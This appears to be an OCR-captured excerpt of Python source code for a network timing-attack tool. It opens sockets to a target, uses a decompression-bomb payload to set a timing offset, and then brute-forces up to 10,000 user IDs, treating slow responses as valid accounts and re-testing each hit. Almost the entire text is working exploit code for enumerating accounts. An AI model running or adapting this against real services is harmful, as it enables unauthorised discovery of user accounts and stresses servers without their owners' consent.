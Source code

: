 ```python
        decompress(self.payload)
        stop = default_timer()
        self.bombtimer = (stop - start)/2 # You have to adjust this offset if you have a lot of false positives
        print("[+] Bomb test - Time offset set : %f." % self.bombtimer)


    def create_socket(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(self.target)
        return s

    def avg_timer(self):
        # We first need to get the average response time of the server.
        timers = []
        sock = self.create_socket()
        for x in range(0,50):
            took = self.send_exploit(x)
            timers.append(took)
        print("[~] Average response time : %f" % mean(timers))
        # When a response is higher than the trigger, this may be caused by a decompression.
        self.trigger = mean(timers)+self.bombtimer

    def bruteforce(self,max_uids=10000):
        print("[~] Sending TOKEN probes...")
        start = default_timer()
        # We try to determine which usernames are valid.
        for userid in range(1,max_uids+1):
            current = (float(userid)/max_uids)*100
            timer = self.send_exploit(userid)
            print('[~] Uid : %d took : %f (%d%% completed)' % (userid,timer,current))
            if timer >= self.trigger:
                stop = default_timer()
                print("[+] Possible valid UID : %d found in %d seconds." % (userid,(stop-start)))
                # We check if the userid is a false positive.
                self.confirm(userid)
        print("[+] Timing attack done.")

    def send_exploit(self, user_id):
        # We send a payload, and get the time it needs to answer.
        sock = self.create_socket()
        self.send_payload(sock,user_id)
        start = default_timer()
        data = sock.recv(1024)
        stop = default_timer()
        sock.close()
        return (stop-start)

    def confirm(self,uid):
        # This function is used to test if a userid is valid.
        success = 0
        for attempt in range(0,20):
            took = self.send_exploit(uid)
            print("[~] Test n°%d : %f" % (attempt,took))
            if (took >= self.trigger):
                print("[+] BANGARANG !")
                success += 1
            else:
                print("[-] Nooooooo !")
        success_rate = float(success)/20*100
        print("[~] Test results : %d seems to be %f%% valid." % (uid,success_rate))
        if success_rate >= 50:
            print("[+] User ID : %d doesn't seem to be a false positive." % uid)
```